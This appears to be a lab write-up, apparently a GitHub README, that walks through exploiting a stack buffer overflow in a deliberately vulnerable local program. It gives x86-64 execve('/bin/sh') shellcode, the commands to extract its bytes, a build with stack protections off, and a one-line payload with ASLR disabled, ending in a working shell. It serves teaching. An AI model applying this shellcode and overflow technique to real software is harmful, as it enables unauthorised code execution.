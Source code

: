 # Problem I

This writeup describes how to open a shell from a silly victim program containing a `getc`.

I mainly followed the [ROC tutorial](https://crypto.stanford.edu/~blynn/rop/) with subtle tweaks, the result runs on 64-bit x86 Ubuntu 20.

#### Build the shellcode ####

A simple inline assembly program gets us the shell-opening shellcode:)

Content of [`shellcode.c`](shellcode.c)


```c
// Shell openning shellcode
#include <stdio.h>

int main() {
  asm("\
needle0: jmp there\n\
here:    pop %rdi\n\
         xor %rax, %rax\n\
         movb $0x3b, %al\n\
         xor %rsi, %rsi\n\
         xor %rdx, %rdx\n\
         syscall\n\
there:   call here\n\
.string \"/bin/sh\"\n\
needle1: .octa 0xdeadbeef\n\
  ");
}
```

Build shellcode.
```shell
gcc schellcode.c
```

Now running `a.out` should start a new shell. 

On my machine `a.out` takes about 16KB, but we're only interested in the part that starts the shell.

Inspecting the object dump we can find where the shell starting part of the program really lives.

```shell
objdump -d a.out | sed -n '/needle0/,/needle1/p'
```

On my machine this returned.
```
0000000000001131 <needle0>:
    1131:	eb 0e                	jmp    1141 <there>

0000000000001133 <here>:
    1133:	5f                   	pop    %rdi
    1134:	48 31 c0             	xor    %rax,%rax
    1137:	b0 3b                	mov    $0x3b,%al
    1139:	48 31 f6             	xor    %rsi,%rsi
    113c:	48 31 d2             	xor    %rdx,%rdx
    113f:	0f 05                	syscall 

0000000000001141 <there>:
    1141:	e8 ed ff ff ff       	callq  1133 <here>
    1146:	2f                   	(bad)  
    1147:	62                   	(bad)  
    1148:	69                   	.byte 0x69
    1149:	6e                   	outsb  %ds:(%rsi),(%dx)
    114a:	2f                   	(bad)  
    114b:	73 68                	jae    11b5 <__libc_csu_init+0x45>
	...

000000000000114e <needle1>:
```

For some reason there is no global code offset in the above (unlike the ROC example), ie 0x1131 is the true offset in bytes of <needle0> from the start of the `a.out` file. Notice how the entire shellcode fits in 29 bytes (0x114e - 0x1131).

The following command gets 32 bytes of the `a.out` file offsetted by 0x1131 and creates the `shellcode` file containing these 32 bytes -- the shellcode itself!

```shell
xxd -s0x1131 -l32 -p a.out shellcode
```

Now build the silly victim code.

```shell
gcc -fno-stack-protector -z execstack victim.c -o victim
```

The [victim.c](victim.c) is tweaked to print out address of the buffer. Run it once to get the address. I get the following output:

```
0x7fffffffe3d0
What's your name?
```

Copy the printed buffer address and convert to little endian, save to a variable.

```shell
a=`printf %016x 0x7fffffffe3d0 | tac -rs..`
```

We are ready to hack! The following magic all-in-one shell command pipes the required input to the victim `getc` prompt.

```shell
( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat ) | setarch `arch` -R ./victim
```

- `( cat shellcode ; printf %080d 0 ; echo $a )` -- appends the content of `shellcode` file, eighty zeros, and address of buffer (from the variable `a`) together.
- `xxd -r -p` -- converts hexdump string to binary.
- `setarch -R` -- disables randomization of address space.

`woop woop` is the magic key to open the secret shell (just kidding any input will do)!
```
0x7fffffffe3d0
What's your name?
woop woop
Hello, ?_H1??;H1?H1??????/bin/sh!
ls    
README.md  a.out  problem1  problem1-ubuntu64.c  problem2.c  shellcode	shellcode.c  victim
uname -a
Linux xenon 5.4.0-72-generic #80-Ubuntu SMP Mon Apr 12 17:35:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```




